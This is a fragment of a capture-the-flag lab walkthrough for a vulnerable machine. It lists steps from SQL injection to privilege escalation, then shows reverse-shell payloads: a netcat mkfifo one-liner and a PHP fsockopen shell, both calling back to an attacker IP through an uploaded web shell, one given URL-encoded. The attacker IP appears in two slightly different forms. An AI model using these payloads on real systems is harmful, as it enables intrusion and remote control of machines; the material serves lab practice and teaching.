

Index
- nmapAutomator
- gobuster
- initial foothold
- manual sqlinjection (Blind SQL injection)
- Error based Blind SQL Injection
- revshell.php
- Exploit the SQL injection to add php code into a file on the system
- reverse shell
- sqlmap
- privesc to pepper
- privesc to root
- user/root
- lessons learned
reverse shell
taking the netcat openbsd reverseshell from payloadallthethings
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.14.62 1337 >/tmp/f
and urlencoding it with ctrl+z a
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.62%201337%20%3E%2Ftmp%2Ff
when we send it through the shell script we've uploaded
10.10.10.143.sh3ll.php?c=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.62%201337%20%3E%2Ftmp%2Ff

we get a shell!

this (url encoded) works too
10.10.10.143.sh3ll.php?c=php -r '$sock=fsockopen("10.10.14.62",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'